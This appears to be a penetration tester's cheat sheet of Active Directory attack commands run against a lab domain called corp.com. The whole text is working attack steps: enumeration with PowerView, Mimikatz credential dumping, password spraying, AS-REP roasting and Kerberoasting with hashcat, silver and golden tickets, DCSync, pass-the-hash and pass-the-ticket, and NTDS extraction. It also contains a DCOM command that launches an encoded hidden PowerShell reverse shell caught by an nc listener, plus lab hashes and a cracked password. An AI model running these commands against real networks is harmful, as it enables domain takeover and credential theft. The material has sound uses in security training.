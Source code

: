 ### Enumertaion 
```
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname
Get-NetGroup | select cn
Get-NetUser | select cn,pwdlastset,lastlogon
```

```
Find-LocalAdminAccess
Get-NetSession -ComputerName web04 -Verbose

Get-NetSession -ComputerName client74

Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

.\PsLoggedon.exe \\files04
```

### SPN
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

### Enumerating Object Permissions
```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

```
Get-ObjectAcl -Identity <user>
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

#exploit
net group "Management Department" <user> /add /domain
```
External site https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
```
Powerview - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview
```
Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ActiveDirectoryRights | fl
```
### Domain Shares
```
Find-DomainShare
ls \\dc1.corp.com\sysvol\corp.com\
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml     # Password cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

### Mimikatz
```
privilege::debug
sekurlsa::logonpasswords

## Access the SMB
dir \\web04.corp.com\backup
sekurlsa::tickets                         # Group 0 - Ticket Granting Service and Group 2 - Ticket Granting Ticket
```
## Authentication Attack
### Password Spraying from Windows 
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
### AS-REP Roasting
```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# From winows
.\Rubeus.exe asreproast /nowrap
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
### Kerberoasting
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
cat hashes.kerberoast
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

## Linux 
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Silver Ticket 
```
Access any web or smbshare
iwr -UseDefaultCredentials http://web04

##Mimikatz
privilege::debug
sekurlsa::logonpasswords                 # found iis service hash NTLM     : 4d28cf5252d39971419580a51484ca09
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
klist
iwr -UseDefaultCredentials http://web04   # it will work
```
### Domain Controller Synchronization (DCsync attack)
```
.\mimikatz.exe
lsadump::dcsync /user:corp\dave         #   Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
lsadump::dcsync /user:corp\Administrator  # Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
Cracked Administrator hash found BrouhahaTungPerorateBroom2023!
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

## Lateral Movement 
### PSEXEC 
Pre-req: Administrators local group, ADMIN$ share must be available, and third, File and Printer Sharing has to be turned on
```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
### PASS-THE HASH 
```
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
### Overpass the Hash
abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT).
```
mimikatz
privilege::debug
sekurlsa::logonpasswords    # NTLM : 369def79d8372408bf6e93364cc93075 and username Jen
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
klist        # if its 0 thats fine
net use \\files04
klist
.\PsExec.exe \\files04 cmd
```
### Pass the Ticket
Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. 
```
ls \\web04\backup                # '\\web04\backup' is denied.

Mimikatz
privilege::debug
sekurlsa::tickets /export
dir *.kirbi                             # -a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
klist
ls \\web04\backup
```

### DCOM
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
tasklist | findstr "calc"
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")

$ kali: nc -lnvp 443
whoami
hostname
```
### Golden ticket 
```
PsExec64.exe \\DC1 cmd.exe

Mimikatz
privilege::debug
lsadump::lsa /patch                             # User : krbtgt  NTLM : 1693c6cefafffc7af11ef34d1c788f47
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
misc::cmd
PsExec.exe \\dc1 cmd.exe
whoami /groups                    # will be in Admin Group
```

### vshadow.exe
```
vshadow.exe -nw -p  C:                                # - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
